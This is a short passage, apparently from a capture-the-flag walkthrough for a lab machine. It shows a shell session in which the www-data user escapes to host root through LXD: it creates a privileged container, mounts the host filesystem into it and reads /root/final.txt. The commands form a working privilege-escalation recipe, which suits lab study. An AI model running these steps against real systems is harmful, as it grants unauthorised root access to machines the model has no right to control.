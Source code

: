 ```
www-data@ubuntu:/var/www$ lxc init myalpine joker -c security.privileged=true
lxc init myalpine joker -c security.privileged=true
Creating joker
www-data@ubuntu:/var/www$ lxc config device add joker mydevice disk source=/ path=/mnt/root recursive=true
<ydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to joker
www-data@ubuntu:/var/www$ lxc start joker
lxc start joker
www-data@ubuntu:/var/www$ lxc exec joker /bin/sh
lxc exec joker /bin/sh
```

15. What is the name of the file in the /root directory?

```
~ # ^[[26;5Rcat /mnt/root/root/final.txt
cat /mnt/root/root/final.txt

     ██╗ ██████╗ ██╗  ██╗███████╗██████╗
     ██║██╔═══██╗██║ ██╔╝██╔════╝██╔══██╗
     ██║██║   ██║█████╔╝ █████╗  ██████╔╝
██   ██║██║   ██║██╔═██╗ ██╔══╝  ██╔══██╗
╚█████╔╝╚██████╔╝██║  ██╗███████╗██║  ██║
 ╚════╝  ╚═════╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝

!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/rajchandel/
Aarti Singh: https://in.linkedin.com/in/aarti-singh-353698114

+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |H|A|C|K|I|N|G|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
~ # ^[[26;5R
```
